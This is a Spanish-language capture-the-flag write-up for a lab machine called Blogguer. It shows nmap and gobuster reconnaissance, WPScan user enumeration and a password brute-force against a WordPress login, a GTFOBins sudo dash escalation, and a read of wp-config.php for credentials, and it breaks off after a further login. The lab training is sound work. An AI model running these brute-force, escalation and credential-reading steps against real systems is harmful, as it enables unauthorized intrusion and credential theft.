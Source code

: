 ```yaml
---
description: '🔍 Dificultad: Muy Fácil'
---
```


# Blogguer

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.68
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open 192.168.1.68 --min-rate 5000 -n
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 192.168.1.68
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Miramos el puerto 80 en la que no hay nada relevante ya que es la página por defecto de Apache.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Buscamos directorios.

```bash
gobuster dir -u http://192.168.1.68 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml
```

Nos llama la atención que hay un directorio llamado **/wordpress**. Ponemos el dominio **megablog.nyx** en **/etc/hosts**.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Al tener el directorio wp-admin sabemos que es un panel de login pero no tenemos las credenciales por lo que con **WPScan** enumeramos el usuario.

```bash
wpscan --url http://192.168.1.68/wordpress/ --enumerate u,vp
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Sabiendo el usuario tenemos que conseguir la contraseña.

```bash
wpscan --url http://192.168.1.68/wordpress/ --passwords /usr/share/wordlists/rockyou.txt --usernames peter
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Teniendo las credenciales nos logueamos.

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% @github-files/github-code-block url="https://github.com/d4t4s3c/OffensiveReverseShellCheatSheet?tab=readme-ov-file&source=post_page-----18a0699dd483--------------------------------#wordpress" %}

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.&#x20;

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/dash/#suid" %}

<pre class="language-bash"><code class="lang-bash"><strong>sudo -u blog /usr/bin/dash -p
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos damos cuenta que no hemos revisado el archivo wp-config.php por si hay credenciales.

```bash
cat /var/www/html/wordpress/wp-config.php 
```

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Teniendo las credenciales nos logueamos.

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
